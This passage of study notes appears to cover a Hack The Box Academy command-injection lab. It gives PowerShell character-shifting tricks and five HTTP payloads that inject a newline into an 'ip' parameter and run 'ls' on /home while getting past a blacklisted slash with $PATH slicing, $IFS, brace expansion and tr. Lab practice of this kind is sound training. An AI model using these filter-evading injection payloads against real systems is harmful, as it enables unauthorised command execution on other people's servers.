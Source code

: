 ### Windows Character Shifting

**PowerShell Shifting:**
```powershell
# Convert character to ASCII and add 1
[char]([int][char]':' + 1)    # → ;
[char]([int][char]'[' + 1)    # → \
[char]([int][char]'{' + 1)    # → |
```

**CMD Character Arithmetic:**
```cmd
# More complex in CMD, typically requires FOR loops
# Generally prefer environment variable extraction
```

---

## HTB Academy Lab Solution

### Challenge Requirements

**Task:** Find the name of the user in the '/home' folder.

**Constraints:**
- Forward slash (/) likely blacklisted
- Need to execute `ls /home` or similar command
- Must use character bypass techniques

### Solution Approaches

**Method 1: Environment Variable for Slash**
```http
ip=127.0.0.1%0als${PATH:0:1}home
# URL encoded: ip=127.0.0.1%0als%24%7bPATH:0:1%7dhome
```

**Method 2: Brace Expansion + Environment Variable**
```http
ip=127.0.0.1%0a{ls,${PATH:0:1}home}
# URL encoded: ip=127.0.0.1%0a%7bls,%24%7bPATH:0:1%7dhome%7d
```

**Method 3: IFS + Environment Variable**
```http
ip=127.0.0.1%0als${IFS}${PATH:0:1}home
# URL encoded: ip=127.0.0.1%0als%24%7bIFS%7d%24%7bPATH:0:1%7dhome
```

**Method 4: Character Shifting for Slash**
```http
ip=127.0.0.1%0als$(tr '!-}' '"-~'<<<[)home
# Using ASCII shift to generate /
```

**Method 5: Short Syntax Alternative**
```http
ip=127.0.0.1%0als$IFS${PATH:0:1}home
# URL encoded: ip=127.0.0.1%0als%24IFS%24%7bPATH:0:1%7dhome
# Uses compact $IFS instead of ${IFS}
```
